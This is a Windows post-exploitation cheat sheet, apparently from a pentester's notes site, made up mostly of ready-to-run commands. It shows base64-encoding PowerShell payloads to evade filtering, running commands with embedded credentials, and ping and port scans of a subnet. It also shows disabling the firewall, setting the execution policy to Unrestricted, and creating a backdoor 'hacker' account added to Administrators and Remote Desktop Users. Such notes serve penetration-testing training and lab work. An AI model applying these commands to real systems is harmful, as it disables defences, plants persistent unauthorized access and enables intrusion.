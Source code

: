 ```yaml
---
icon: code-square
---
```


# Windows Tricks

## PowerShell encoded base64
Create a base64 payload to avoid bad characters.
```bash
# Create the command to PowerShell execute
$ echo -n 'ping -n 2 10.10.14.2' | iconv -t utf-16le | base64 -w 0
cABpAG4AZwAgAC0AbgAgADIAIAAxADAALgAxADAALgAxADQALgAyAA==

# Run PowerShell Encoded
Payload: cmd /c powershell -enc cABpAG4AZwAgAC0AbgAgADIAIAAxADAALgAxADAALgAxADQALgAyAA==

```

## Run command as User (with creds)

```powershell
$pass = ConvertTo-SecureString "aliceishere" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("disco\\Alice", $pass)

Invoke-Command -ComputerName disco -Credential $cred -ScriptBlock {whoami}
```

## List running process with args

```powershell
WMIC path win32_process get Caption,Processid,Commandline
```

## Scan for hosts and open ports in subnet

```bash
# Scan for Hosts in Subnet
PS > 1..254 | ForEach-Object {Test-Connection -ComputerName "172.16.2.$_" -Count 1 -ErrorAction SilentlyContinue}

# Scan for open Ports
PS > 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.2.101",$)) "Port $ is open!"} 2>$null
```

## **PowerShell**

```powershell
# **PowerShell Directory**
c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe

# FIX THE VARIABLE PATH
set PATH=%SystemRoot%\system32;%SystemRoot%;
```

## Search for files

```powershell
Get-Childitem –Path C:\ -Include *filetosearch* -Recurse -ErrorAction SilentlyContinue
```

## Firewall Disable

```powershell
NetSh Advfirewall set allprofiles state off
```

## **Can not run scripts?** Enable it!

```powershell
Set-ExecutionPolicy Unrestricted
Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

## Add a RDP user

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```
